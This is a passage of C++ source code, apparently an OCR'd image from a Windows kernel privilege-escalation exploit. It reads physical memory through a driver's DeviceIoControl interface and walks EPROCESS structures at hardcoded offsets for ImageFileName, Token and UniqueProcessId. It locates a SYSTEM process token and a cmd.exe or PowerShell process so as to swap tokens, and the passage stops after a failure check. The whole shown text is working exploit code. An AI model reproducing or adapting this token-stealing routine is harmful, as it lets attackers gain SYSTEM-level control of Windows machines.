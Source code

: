 ```cpp
            // 0x1000 bytes of physmem
            INT64 mapped_address = *(PINT64)output_buff;

            // mapped_address is mapping from our page entry where, on that
            // page, exists a "Proc" tag. Therefore, we need both the header
            // size and the offset from the page entry to the "Proc" tag so
            // we can calculate the static offsets/values of the EPROCESS
            // memebers ImageFileName, Token, UniqueProcessId...
            INT64 imagename_address = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i]
                + 0x450; //ImageFileName
            INT64 imagename_value = *(PINT64)imagename_address;

            INT64 proc_token_addr = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i] 
                + 0x360; //Token
            INT64 proc_token = *(PINT64)proc_token_addr;

            INT64 pid_addr = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i] 
                + 0x2e8; //UniqueProcessId
            INT64 pid_value = *(PINT64)pid_addr;

            // See if the ImageFileName 64 bit hex value is in our vector of
            // common SYSTEM processes
            int sys_result = count(SYSTEM_procs.begin(), SYSTEM_procs.end(),
                imagename_value);
            if (sys_result != 0 and SYSTEM_found == false)
            {
                SYSTEM_token = proc_token;
                cout << "[>] SYSTEM process found!\n";
                cout << "    - ImageFileName value: "
                    << (char*)imagename_address << "\n";
                cout << "    - Token value: " << hex << proc_token << "\n";
                cout << "    - Token address: " << hex << proc_token_addr
                    << "\n";
                cout << "    - UniqueProcessId: " << dec << pid_value << "\n\n";
                SYSTEM_found = true;
            }
            else if (imagename_value == 0x6568737265776f70 or
                imagename_value == 0x6578652e646d63)  // powershell or cmd
            {
                cmd_token_addr = proc_token_addr;
                cout << "[>] cmd.exe process found!\n";
                cout << "    - ImageFileName value: "
                    << (char*)imagename_address << "\n";
                cout << "    - Token value: " << hex << proc_token << "\n";
                cout << "    - Token address: " << hex << proc_token_addr
                    << "\n";
                cout << "    - UniqueProcessId: " << dec << pid_value << "\n\n";
            }
        }
        else
        {
            //DeviceIoControl failed
        }
    }
    if ((!cmd_token_addr) or (!SYSTEM_token))
    {
        cout << "[!] Token swapping requirements not met.\n";
        cout << "[!] Last physical address scanned: " << hex <<
            proc_data.proc_address.back() << ".\n";
        cout << "[!] Better luck next time!\n";
```